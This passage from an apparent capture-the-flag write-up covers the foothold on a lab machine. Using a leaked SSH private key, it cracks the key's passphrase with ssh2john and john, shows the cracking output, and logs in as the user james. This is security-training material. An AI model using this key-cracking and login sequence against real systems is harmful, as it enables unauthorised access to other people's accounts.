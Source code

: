 ## **Foothold**

Great, we got access just with that, now we are presented with a SSH private key and a note saying that it belongs to **james**, we can copy the key and paste it into a file in our machine and use it to connect to the machine as james. We also need to change the permission of file where we copied the key to 600, we can do that with the following command:`chmod 600 {filename}`. We can now use the following command to connect: `ssh -i {filename} {target_IP}`. OH, when we try to connect, it tells us to enter a password for the private key and we don't have one, it's an easy fix, we can use `ssh2john` to get a hash and then crack that hash using `john`:

```terminal
$ ./ssh2john.py {filename} > hash                                              
$ john hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
ja-----          (id_rsa)     
1g 0:00:00:05 DONE 3/3 (2022-01-31 07:44) 0.1851g/s 262319p/s 262319c/s 262319C/s jamest1..jamelli
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the private key's password, we can connect:

```terminal
$ ssh -i id_rsa james@10.10.191.99
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of  12:34:24 UTC 2022

  System load:  0.07               Processes:           89
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 14%                IP address for eth0: 10.10.191.99
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: 34:15 2022 from 10.11.31.131
james@overpass-prod:~$
```
